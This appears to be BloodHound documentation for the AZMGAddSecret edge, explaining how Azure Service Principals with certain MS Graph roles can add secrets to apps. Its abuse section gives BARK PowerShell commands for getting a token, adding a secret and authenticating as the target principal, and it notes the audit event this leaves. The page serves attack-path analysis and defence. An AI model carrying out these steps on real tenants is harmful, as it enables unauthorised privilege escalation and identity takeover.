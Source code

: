 ---
title: AZMGAddSecret
description: "This edge is created during post-processing."
---

<img src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 



 It is created against all Azure App Registrations and Service Principals when a Service Principal has one of the following MS Graph app roles:

* Application.ReadWrite.All
* RoleManagement.ReadWrite.Directory

You will not see this privilege when using just the Azure portal or any other Microsoft tooling. If you audit the roles and administrators affecting any particular Azure App or Service Principal, you will not see that the Service Principal can add secrets to the object, but it indeed can because of the parallel access management system used by MS Graph.

## Abuse Info

There are several ways to perform this abuse, depending on what sort of access you have to the credentials of the object that holds this privilege against the target object. If you have an interactive web browser session for the Azure portal, it is as simple as finding the target App in the portal and adding a new secret to the object using the “Certificates & secrets” tab. Service Principals do not have this tab in the Azure portal but you can add secrets to them with the MS Graph API. No matter what kind of control you have, you will be able to perform this abuse by using BARK’s New-AppRegSecret or New-ServicePrincipalSecret functions.

These functions require you to supply an MS Graph-scoped JWT associated with the Service Principal that has the privilege to add secrets to the target object. There are several ways to acquire a JWT. For example, you may use BARK’s Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT by supplying a Service Principal Client ID and secret:

```bash
$MGToken = Get-MSGraphTokenWithClientCredentials `
    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
    -ClientSecret "asdf..." `
    -TenantName "contoso.onmicrosoft.com"
```
Then use BARK’s New-AppRegSecret to add a new secret to the target application:

```bash
New-AppRegSecret `
    -AppRegObjectID "d878..." `
    -Token $MGToken.access_token
```
The output will contain the plain-text secret you just created for the target app:

```bash
New-AppRegSecret `
    -AppRegObjectID "d878..." `
    -Token $MGToken.access_token

Name                Value
----                -----
AppRegSecretValue   odg8Q~...
AppRegAppId         4d31...
AppRegObjectId      d878...
```

With this plain text secret, you can now acquire tokens as the service principal associated with the app. You can easily do this with BARK’s Get-MSGraphToken function:

```bash
$SPToken = Get-MSGraphToken `
    -ClientID "4d31..." `
    -ClientSecret "odg8Q~..." `
    -TenantName "contoso.onmicrosoft.com"
```
Now you can use this JWT to perform actions against any other MS Graph endpoint as the service principal, continuing your attack path with the privileges of that service principal.

## Opsec Considerations

When you create a new secret for an App or Service Principal, Azure creates an event called “Update application - Certificates and secrets management”. This event describes who added the secret to which application or service principal.

## References
* [https://attack.mitre.org/techniques/T1098/](https://attack.mitre.org/techniques/T1098/)
* [https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5](https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5)
* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
